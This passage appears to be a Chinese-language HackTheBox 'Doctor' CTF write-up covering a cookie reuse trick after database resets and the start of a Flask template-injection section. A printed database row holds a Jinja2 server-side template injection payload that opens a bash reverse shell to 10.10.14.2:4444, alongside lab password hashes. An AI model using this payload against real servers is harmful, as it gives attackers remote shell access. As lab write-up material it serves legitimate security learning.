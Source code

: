 因此，如果我能够在盒子重置（或数据库清除）时保留有效的cookie，我就可以成为另一个用户。这似乎不太可能出现在现实世界的系统中，但会在像HTB这样的CTF上一直出现。

#### 数据库冻结状态

我在重置后从工作站点目录中删除了的副本。在此数据库中，有两个用户：`site.db`

    root@kali# sqlite3 site.db 
    SQLite version 3.33.0 2020-08-14 13:23:32
    Enter ".help" for usage hints.
    sqlite> select * from user;
    1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
    2|shaun|s@s.com|default.gif|$2b$12$wW0SocwtbEImnxgWoHJPMOzbTKs1qYCeE5Q0KnBtCXqD7NzuDne4y
    

还有与用户 ID 2 关联的漏洞利用帖子：

    sqlite> select * from post;
    1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1
    2|{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").read()}}{%endif%}{%endfor%}|2020-09-28 13:01:21.252038|dsdsdsa|2
    

我从 中抓取了“干净”数据库的副本，它只显示了一个用户：`/opt/clean`

    sqlite> select * from user;
    1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
    

只有一个帖子：

    sqlite> select * from post;
    1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1
    

#### 把它们放在一起

一旦我等到清理作业运行，用户 ID 为 2 的用户现在可用。如果我注册此用户，我将获得一个带有此用户 ID 2 的签名 Cookie。现在，如果我重置该框，则在重置时，已经有一个用户ID为2的用户 - shaun。当我使用该cookie访问该页面时，我已经以肖恩的身份登录。

### 模板注入

模板注入在路由中进行，该路由在 中定义：`/archive``/home/web/blog/flaskblog/main/routes.py`

    from flask import render_template, render_template_string, request, Blueprint
    from flask_login import current_user, login_required
    from flaskblog.models import Post
    
    main = Blueprint('main', __name__)
    
    
    @main.route("/")
    @main.route("/home")
    @login_required
    def home():
            page = request.args.get('page', 1, type=int)
            posts = Post.query.order_by(Post.date_posted.asc()).paginate(page=page, per_page=10)
            return render_template('home.html', posts=posts, author=current_user)
    